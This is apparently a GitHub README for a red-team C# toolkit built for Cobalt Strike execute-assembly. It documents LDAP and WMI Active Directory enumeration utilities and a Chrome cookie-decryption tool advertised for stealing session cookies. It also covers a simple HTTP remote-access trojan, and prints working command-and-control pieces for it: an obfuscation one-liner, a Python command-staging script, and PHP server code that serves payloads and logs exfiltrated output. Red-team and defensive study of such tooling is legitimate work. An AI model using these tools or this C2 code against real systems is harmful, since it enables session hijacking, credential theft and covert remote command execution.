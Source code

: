 # RedTeamCSharpScripts
C# Script used for Red Team. These binaries can be used by Cobalt Strike execute-assembly or as standalone executable. 


# LDAP utility

LDAP utility contains several LDAP query that will return all the valuable information you are looking for.

The utility support the following options

```
DumpAllUsers        Dump all the users 
DumpUser            Dump user information based on the samaccountname provided
DumpUsersEmail      Dump all users and email addresses
DumpAllComputers    Dump all computers
DumpComputer        Dump a computer information based on the name provided
DumpAllGroups       Dump all groups
DumpGroup           Dump a group information based on the name provided
DumpPasswordPolicy  Dump domain password policy
CheckManaged        Check GPOs for managedby objects    
```

```
Usage: ldaputility.exe options domain [arguments]

ldaputility.exe DumpAllUsers RingZer0
ldaputility.exe DumpUser RingZer0 mr.un1k0d3r
ldaputility.exe DumpUsersEmail RingZer0
ldaputility.exe DumpAllComputers RingZer0 
ldaputility.exe DumpComputer RingZer0 DC01
ldaputility.exe DumpAllGroups RingZer0
ldaputility.exe DumpGroup RingZer0 "Domain Admins"
ldaputility.exe DumpPasswordPolicy RingZer0
ldaputility.exe DumpPwdLastSet RingZer0
ldaputility.exe DumpLastLogon RingZer0
ldaputility.exe CheckManaged RingZer0
```

The `-verbose` switch can be added to get verbose output.

### The CheckManaged feature

Active Directory support the following two attributes `managedobjects` and `managedby`. These attributes can be used to assign a manager to an object. It can be a user managing a computer. There is a GPO that can be used to grant local admin to managedobjects owner. The user will not be listed as a local admin by default by the correlation between `managedby` and `managedobjects` can identify users that managed computers.

The `CheckManaged` feature first confirm the presence of the GPO in question by looking at the SYSVOL policies present on the DC. If the `groups.xml` is present, it dump all the users with a `managedobjects` attribute and the computers with a `managedby` attribute.

![managedexample](https://raw.githubusercontent.com/Mr-Un1k0d3r/RedTeamCSharpScripts/master/managed.png)

# Cookies Monster

Fetch Chrome cookie in plaintext. Perfect to steal a target session cookie through execute-assembly

```
Usage: CookiesMonster.exe filter
```

The filter argument is optional. If not specified it will dump all the cookies. Since the cookies are encrypted using ProtectedMemory Windows APIs you need to have access to the current user context to be able to generate the proper decryption key. 

The binary need to be compiled statically to include the System.Data.SQLite dll.

# WMI Utility

Set of predefined WMI query that can be used to query CIM classes.

The utility support the following options

```
Usage: WMIUtility.exe options [arguments]

ListProcess         Return a list of running process
ListService         List all the services
Query               Args (query, columns) wmiutility.exe Query "Select * From Win32_CommandLineAccess" "Name,Description"

ListRemoteProcess   Return a list of running process on the target host
ListRemoteService   Return a list of all the services on the target host
Get-EventForUser    Search for 4624 events targeting specific user
RemoteQuery         Args (query, columns) 
Get-Av              Return a list of potential security product

EX:
wmiutility.exe ListRemoteProcess <ComputerName> <Username> <Password>
wmiutility.exe ListRemoteService <ComputerName> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> <DomainController> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> all <Username> <Password>
wmiutility.exe RemoteQuery "Select * From Win32_CommandLineAccess" "Name,Description" <ComputerName> <Username> <Password>
```

# enumerateuser.cs

List all the users samaccountname & mail

```
execute-assembly C:\enumerateuser.exe domain
```

# ldapquery.cs

Perform custom ldap queries

```
execute-assembly C:\enumerateuser.exe ringzer0team "(&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))" samaccountname,mail

Querying LDAP://ringzer0team
Querying: (&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))
Extracting: samaccountname,mail
Mr.Un1k0d3r,Mr.Un1k0d3r@corp.com,
```

# simple-http-rat.cs

A simple RAT that execute command over HTTP. The code is calling back every 10 seconds and will execute the data present on the callback URL.

`rat.exe callbackurl`

The data is obfuscated using the following python trick

```
$ python -c 'import base64; print base64.b64encode("cmd.exe /c whoami")[::-1]'
=kWbh9Ga3ByYvASZ4VmLk12Y
```

The file creation can also be automated using the following script

```
import base64
import sys
import os

path = sys.argv[1]
cmd = sys.argv[2]

if os.path.exists(path):
        os.remove(path)
        
open(path, "w+").write(base64.b64encode(cmd)[::-1])
print "Command added"
```

```
update.py /var/www/html/callback.html "whoami"
```

For the post back RAT the following PHP code can be used to capture the data

```
<?php
$request = (object)array();

if($_SERVER['REQUEST_METHOD'] === "POST") {
        $request->data = file_get_contents("php://input");
        $request->ip = $_SERVER["REMOTE_ADDR"];
        $request->time = date("r");

        $data = str_replace("!)(*&#:<]", "A", $request->data);
        $decoded = base64_decode($data);

        file_put_contents("/tmp/output.txt", "[" . $request->time . "](" . $request->ip . "): " . $decoded . "\r\n", FILE_APPEND);
} else {
        echo file_get_contents("/tmp/payload.txt");
}
?>
```

# set.cs (set.exe)

C# equivalent of Windows set command that does not required to spawn cmd.exe

```
execute-assembly C:\set.exe

PROCESSOR_ARCHITEW6432=AMD64
DriverData=C:\Windows\System32\Drivers\DriverData
```

# Credit

Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team

# Contributors

@theFlinkk for the AV module
